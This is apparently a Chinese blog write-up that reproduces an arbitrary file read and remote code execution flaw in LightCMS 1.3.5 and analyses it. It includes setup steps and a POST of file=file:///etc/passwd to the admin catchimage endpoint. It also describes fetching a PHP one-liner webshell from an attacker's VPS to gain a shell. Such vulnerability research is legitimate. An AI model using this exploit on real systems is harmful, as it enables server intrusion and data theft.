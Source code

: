 # 原创
：  LightCMS1.3.5-任意文件读取&RCE漏洞

# LightCMS1.3.5-任意文件读取&amp;RCE漏洞

#### LightCMS1.3.5-任意文件读取&amp;RCE漏洞

## 环境搭建(Kali)

> 
个人环境配置：php7.4.15 + mysql8.0.25


> 
- 首先确保系统已安装好composer，可以参考我之前写的文章：[文章链接](https://editor.csdn.net/md/?articleId=117754283)- 下载文件源码


```
cd /var/www/html
git clone https://hub.fastgit.org/eddy8/LightCMS.git
cd lightCMS
composer install

```

> 
- 设置目录权限：storage/和bootstrap/cache/目录需要写入权限。


```
sudo chmod 777 -R storage/ bootstrap/cache/

```

> 
- 新建一份环境配置，并配置好数据库等相关配置


```
cp .env.example .env

数据库配置：
CREATE DATABASE homestead;
CREATE USER 'homestead'@'localhost' IDENTIFIED BY 'secret';
GRANT ALL PRIVILEGES ON *.* TO 'homestead'@'localhost';
FLUSH PRIVILEGES;

```

> 
初始化系统


```
php artisan migrate --seed

PS:这里可能会遇到一些问题，我备注一下自己遇到的问题及其解决方案
1、安装组件时如果无法生成vendor目录可以运行composer install --ignore-platform-reqs命令
2、启动服务时Illuminate\Database\QueryException报错可能是因为没有安装php-mysql依赖
step1:php -v
step2: Install php mysql extension
php 7.x sudo apt-get install php7.x-mysql
step3: service apache2 restart
step4: php artisan migrate

```

> 
- 后台访问地址：/admin/login


```
默认用户（此用户为超级用户，不受权限管理限制）：admin/admin
这里可能会遇到图形验证码无法显示，终端输入：apt-get install php7.x-gd

```

## 漏洞复现

### 利用点一

> 
使用admin/admin登录管理员<br/> 访问http://ip/admin/neditor/serve/catchimage，POST传file=file:///etc/passwd，此时会返回


```
{"list":[{"url":"http://light.com/upload/image/202106/0f1726ba83325848d47e216b29d5ab99.jpg","source":"file:///etc/passwd","state":"SUCCESS"}]}

```

> 
根据返回值，直接访问链接地址即可


### 利用点二

> 
直接传php文件RCE，构造一个php脚本放置vps下，访问读取该文件


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210610002741842.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210610002747715.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

## 漏洞分析

> 
这个漏洞出在`app/Http/Controllers/Admin/NEditorController.php`中的远程下载图片的功能


> 
这里简单使用了`file_get_contents`来获取并保存文件内容，所以我们可以使用file协议实现任意文件读取等ssrf操作，更危险的是这里的逻辑是取到的文件名后缀是什么，保存的就是什么后缀，所以我们可以放一个php一句话在服务器上，然后来请求该一句话文件来达到getshell的目的

